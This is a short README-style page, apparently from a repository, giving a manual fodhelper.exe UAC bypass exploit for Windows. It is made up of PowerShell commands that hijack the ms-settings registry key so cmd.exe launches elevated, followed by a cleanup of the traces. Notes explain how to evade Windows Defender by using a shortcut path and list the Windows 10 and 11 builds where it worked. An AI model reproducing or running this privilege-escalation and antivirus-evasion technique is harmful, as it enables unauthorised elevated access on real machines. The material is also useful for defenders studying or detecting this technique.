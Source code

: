 # Manual fodhelper.exe Exploit

Primary role is to facilitate the installation and management of features on demand (FOD).
### Create Registry Structure
```Powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name “(default)” -Value “C:\Windows\System32\cmd.exe” -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\fodhelper.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


### Notes
- Defender is triggered when trying to set the registry value as "cmd.exe"
- This can be bypassed. Create a shortcut to "cmd.exe". Then use the path to that shortcut as the registry value.
- Worked on Windows 10 Pro N 1909 Build 18363.1139 after disabling Defender.
- Worked on  Windows 11 Pro N 23H2 Build 22631.3737 after disabling Defender.